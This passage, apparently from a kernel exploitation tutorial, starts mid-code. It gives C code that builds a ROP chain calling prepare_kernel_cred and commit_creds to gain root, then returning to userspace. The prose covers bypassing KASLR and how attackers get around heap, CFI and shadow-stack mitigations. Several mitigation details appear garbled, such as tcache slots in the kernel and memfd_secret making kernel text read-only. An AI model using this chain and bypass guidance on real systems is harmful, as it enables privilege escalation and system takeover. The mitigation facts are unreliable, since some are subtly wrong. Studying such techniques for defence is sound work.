    uint64_t user_rflags;           /* saved RFLAGS                 */
    uint64_t user_rsp;              /* saved RSP                    */
    uint64_t user_ss;               /* saved SS                     */
};

#define CHAIN_LEN 32

uint64_t build_rop_chain(uint64_t *chain, const struct kernel_addrs *a) {
    int i = 0;

    /*
     * Step 1: prepare_kernel_cred(NULL)
     * pop rdi; ret       <- set rdi = NULL (argument)
     * call/jmp prepare_kernel_cred <- returns new cred* in rax
     */
    chain[i++] = a->pop_rdi_ret;
    chain[i++] = 0;                          /* NULL argument */
    chain[i++] = a->prepare_kernel_cred;

    /*
     * Step 2: commit_creds(rax)
     * We need to move rax -> rdi.
     * Use: pop rcx; ret  to load &commit_creds into rcx
     * Then: mov rdi, rax; jmp rcx  to pass rax and jump.
     */
    chain[i++] = a->pop_rcx_ret;
    chain[i++] = a->commit_creds;
    chain[i++] = a->mov_rdi_rax_jmp_rcx;

    /*
     * Step 3: Return to userspace cleanly.
     * swapgs restores the GS base; iretq pops RIP, CS, RFLAGS, RSP, SS.
     */
    chain[i++] = a->swapgs_iretq;
    chain[i++] = a->user_rip;
    chain[i++] = a->user_cs;
    chain[i++] = a->user_rflags;
    chain[i++] = a->user_rsp;
    chain[i++] = a->user_ss;

    printf("[*] ROP chain built: %d gadgets\n", i);
    return i;
}

void save_user_context(struct kernel_addrs *a, uint64_t return_rip, uint64_t return_rsp) {
    uint64_t cs, ss, rflags;

    __asm__ volatile (
        "mov %%cs, %0\n"
        "mov %%ss, %1\n"
        "pushfq\n"
        "pop %2\n"
        : "=r"(cs), "=r"(ss), "=r"(rflags)
    );

    a->user_rip    = return_rip;
    a->user_cs     = cs;
    a->user_ss     = ss;
    a->user_rflags = rflags;
    a->user_rsp    = return_rsp;

    printf("[*] Saved user context: CS=0x%lx SS=0x%lx RFLAGS=0x%lx\n",
           cs, ss, rflags);
}
```

### KASLR Reliability and Partial-Overwrite Fallbacks

KASLR applies a random slide to the entire kernel image at boot, chosen from a range that varies by kernel version and architecture. On x86-64 with `CONFIG_RANDOMIZE_BASE`, the slide is a 9-bit random value multiplied by 0x200000 (2 MiB), giving 512 possible slide values. This extraordinarily small entropy is a known weakness; a brute-force KASLR bypass attempts each of the 512 possible kernel base addresses against a crash-and-restart capable target, though production systems with panic-on-oops and reboot delays make brute force slow. Modern kernels on systems with hardware randomization support expand the entropy to 64 bits through physical map randomization, but the main text slide remains bounded in many configurations.

A reliable KASLR leak is almost always preferable to brute force. The `/proc/kallsyms` interface exposes all kernel symbol addresses but requires root to read them (non-root reads return zeros since kernel 4.15). The `dmesg` interface often leaks kernel addresses in stack traces from prior crashes. Side-channel attacks against the kernel's branch predictor state can distinguish which code paths were recently executed, allowing entropy reduction. The most practical approach for a practitioner with an arbitrary read primitive is to scan the leaked pointer for a recognizable kernel address signature (high bits `0xffffffff`) and cross-reference it against a known symbol offset from a matching kernel build's `System.map`.

Partial overwrites represent a different KASLR bypass strategy available when the write primitive modifies bytes adjacent to a pointer rather than writing a full 8-byte value. Because KASLR randomizes only the upper bits of the kernel base address, the lower 12 bits of any kernel pointer are fixed (page-aligned). A one-byte or two-byte partial overwrite of the low bytes of a function pointer can redirect it to a gadget within the same page as the original target — the KASLR slide cancels out — provided a suitable gadget exists at the low-byte-modified address. This is the same principle as partial-overwrite ASLR bypass in userspace PIE binaries and is equally effective in the kernel when the write primitive's reach is limited.

### Failure Modes and Defensive Mitigations

Every component of a kernel exploit chain can fail in ways that are both detectable and exploitable by defenders. A heap spray that fails to reclaim the target slot produces a null dereference or a type-valid but semantically incorrect field access, often triggering a kernel `WARN_ON` or BUG check. These BUG checks, if `CONFIG_PANIC_ON_OOPS` is set, immediately restart the system, burning the exploit attempt and potentially triggering an IDS alert if the panic is forwarded to a syslog collector.

Kernel mitigations specifically targeting heap exploitation include `INIT_ON_FREE_DEFAULT_ON` (zeroing freed memory, which destroys leaked pointers in tcache `fd` slots), `RANDOM_KMALLOC_CACHES` (kernel 6.6+, which randomizes which kmalloc cache serves a given allocation, breaking size-class-based reclaim assumptions), and `CONFIG_MEMFD_SECRET` combined with `rodata` hardening which makes kernel text truly read-only even from CPL0, preventing function pointer overwrite in `.text`. Shadow Stack (Intel CET, `CONFIG_X86_SHADOW_STACK`) protects the kernel return address stack against ROP chains that corrupt saved RIP values on the kernel stack, though this mitigation does not protect function pointer fields in heap-allocated structures.

The practitioner's response to `INIT_ON_FREE` is to avoid relying on stale data in freed chunks and instead use the allocation spray to place attacker-controlled bytes in the target slot before the trigger fires. The response to `RANDOM_KMALLOC_CACHES` is to use dedicated per-type kmem caches (created by kernel subsystems like `inode_cache` or `dentry_cache`) whose allocation source is predictable, or to use the cross-cache attack technique where a slab containing the victim object is entirely freed and then reclaimed at the slab granularity by a different object type — a technique that bypasses per-object cache randomization because it operates at the page level.

Type confusion in userspace C++ is countered primarily by LLVM CFI (`-fsanitize=cfi`), which emits a type hash check before every indirect call. The check compares the loaded vtable pointer against a bitmask of valid vtable addresses for the static type at the call site. Defeating Clang CFI requires finding a valid vtable whose slot `i` function pointer is usable as a code reuse gadget — a within-class confusion rather than arbitrary pointer substitution. The effective attack surface of CFI-protected binaries is therefore the set of valid dispatch targets in the same class hierarchy, which in large C++ codebases (browsers, game engines) remains sufficiently rich to construct working chains. The Microsoft VC++ implementation of CFI (`/guard:cf`) uses a different mechanism — a bitmap of valid indirect call targets — that is similarly bypassable via type confusion within valid target sets.

The discipline of exploit chain composition ultimately requires the practitioner to track, for every stage of the chain, which invariant is being violated, which mitigation guards it, and what the failure mode looks like. A systematic exploit fails precisely at the stage where the violated invariant is guarded by an undefeated mitigation. Working backward from the goal — arbitrary code execution at the target privilege level — through the primitive ladder, and forward from the vulnerability through its direct capabilities, the practitioner identifies the gap and designs the bridge. That bridge is the exploit chain, and its quality is measured not by cleverness but by reliability: a chain that succeeds ninety-nine times out of a hundred under realistic kernel load, against a production target configuration, with mitigations enabled.
